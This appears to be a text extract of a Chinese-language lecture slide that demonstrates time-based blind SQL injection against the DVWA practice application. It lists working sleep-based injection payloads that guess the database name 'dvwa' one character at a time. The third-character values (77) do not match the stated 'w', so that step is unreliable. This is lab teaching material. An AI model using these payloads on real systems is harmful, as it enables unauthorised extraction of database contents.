

DEMO::DVWA_1.10_low
利用二分法 結合Time-based blind SQL injection猜測資料庫名稱
1' and if(ascii(substr(database(),1,1))>97,sleep(5),1)# 明顯延遲
1' and if(ascii(substr(database(),1,1))>100,sleep(5),1)# 沒有延遲
1' and if(ascii(substr(database(),1,1))<100,sleep(5),1)# 沒有延遲

1' and if(ascii(substr(database(),2,2))>110,sleep(5),1)# 明顯延遲
1' and if(ascii(substr(database(),2,2))>118,sleep(5),1)# 沒有延遲
1' and if(ascii(substr(database(),2,2))<118,sleep(5),1)# 沒有延遲

1' and if(ascii(substr(database(),3,3))>75,sleep(5),1)# 明顯延遲
1' and if(ascii(substr(database(),3,3))>77,sleep(5),1)# 沒有延遲
1' and if(ascii(substr(database(),3,3))<77,sleep(5),1)# 沒有延遲

1' and if(ascii(substr(database(),4,4))>95,sleep(5),1)# 明顯延遲
1' and if(ascii(substr(database(),4,4))>97,sleep(5),1)# 沒有延遲
1' and if(ascii(substr(database(),4,4))<97,sleep(5),1)# 沒有延遲
d
v
w
a